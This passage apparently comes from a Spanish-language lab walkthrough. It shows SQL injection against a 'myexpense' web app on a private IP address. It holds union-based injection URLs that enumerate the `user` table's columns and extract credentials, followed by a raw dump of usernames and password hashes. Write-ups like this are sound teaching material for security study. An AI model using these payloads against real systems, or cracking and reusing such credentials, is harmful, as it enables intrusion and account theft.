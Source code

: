 **Enumeración de columnas de la tabla `user`:**
```sql
http://192.168.0.248/site.php?id=2 union select 1,column_name from information_schema.columns where table_schema="myexpense" and table_name="user"-- -
```

![Columnas identificadas](Pasted%20image%2020251010005120.png)

**Extracción de credenciales:**
```sql
http://192.168.0.248/site.php?id=2 union select 1,group_concat(username,0x3a,password) from user-- -
```

![Credenciales extraídas](Pasted%20image%2020251010005856.png)  

**Credenciales en formato raw:**
```
afoulon:124922b5d61dd31177ec83719ef8110a,pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a,rlefrancois:ef0dafa5f531b54bf1f09592df1cd110,mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc,mnguyen:f7111a83d50584e3f91d85c3db710708,pgervais:2ba907839d9b2d94be46aa27cec150e5,placombe:04d1634c2bfffa62386da699bb79f191,triou:6c26031f0e0859a5716a27d2902585c7,broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27,brenaud:2204079caddd265cedb20d661e35ddc9,slamotte:21989af1d818ad73741dfdbef642b28f,nthomas:a085d095e552db5d0ea9c455b4e99a30,vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3,rmasson:ebfc0985501fee33b9ff2f2734011882,elvis:b3128063ef51bd7d61ceee104346526b,jhon:25d55ad283aa400af464c76d713c07ad,jhonelvis:5e8667a439c68f5145dd2fcbecf02209
```
